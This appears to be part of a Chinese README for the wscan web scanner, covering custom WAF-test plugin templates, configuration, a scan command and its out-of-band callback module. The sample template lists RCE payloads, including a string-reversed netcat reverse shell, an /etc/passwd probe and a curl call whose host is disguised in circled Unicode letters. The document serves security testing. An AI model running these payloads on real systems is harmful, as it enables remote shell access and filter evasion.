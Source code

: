 ### Step1 插件样例
样例参考 https://github.com/chushuai/wscan/tree/main/core/plugins/waftest/tmpl/owasp
```yaml
payload:
- $(printf 'hsab/nib/ e- 4321 1.0.0.721 cn'|rev)
- /etc/passwd
- "`curl -L http://\u24BC\u24C4\u24C4\u24BC\u24C1\u24BA.\u24B8\u24C4\u24C2`"
encoder:
- URL
placeholder:
- URLParam
- HTMLForm
- HTMLMultipartForm
- JSONRequest
type: "RCE"
```
### Step2
您需要修改config.yaml文件中的以下内容，以指定include_tmpl的路径。
```yaml
waftest:
    enabled: true
    depth: 0
    auto_load_tmpl: false 
    include_tmpl:
      - /wscan/core/plugins/custom_tmpl/tmpl/owasp/*.yml
    exclude_tmpl: [ ]
    block_status_codes: # 被WAF阻止时HTTP状态码列表,默认值为403
      - 403
    pass_status_codes: # 未被WAF阻止时HTTP状态码列表, 默认值为200或404
      - 200
      - 404
    block_regex: "" # 被WAF阻止网页的正则表达式
    pass_regex: "" # 未被WAF阻止网页的正则表达式
    non_blocked_as_passed: false
```
### Step3 执行自定义waftest插件

通过命令行启用--plug=waftest，即可对目标网站进行自定义Payload测试。
```
  ./wscan --log-level=debug ws --plug=custom_tmpl  --browser  http://testphp.vulnweb.com/  --html-output=wscan_scan_result.html
```

## 返连模块
在进行漏洞检测的时候，我们会发现有很多的漏洞在执行了一些命令后，从表面上看没有任何回应的，比如命令执行漏洞，log4j rce，fastjson，ssrf等等，
但由于前端并没有对应的展示，导致我们并不能知道文件是否成功读取，那么当面对这类的漏洞，我们就需要一个反连平台，
通过让目标执行ping、curl等命令，对反连平台发起请求，反连平台在接受到请求后， 就能告诉我们，命令触发了，也就代表了漏洞存在了。
![](https://ctstack-oss.oss-cn-beijing.aliyuncs.com/tool/github/f8f71df3274cc8c750764e33181a8e3e.jpg)

注意： **Wscan支持http、dns、rmi、ldap四种返连类型，其中http、rmi、ldap复用同一个端口。**
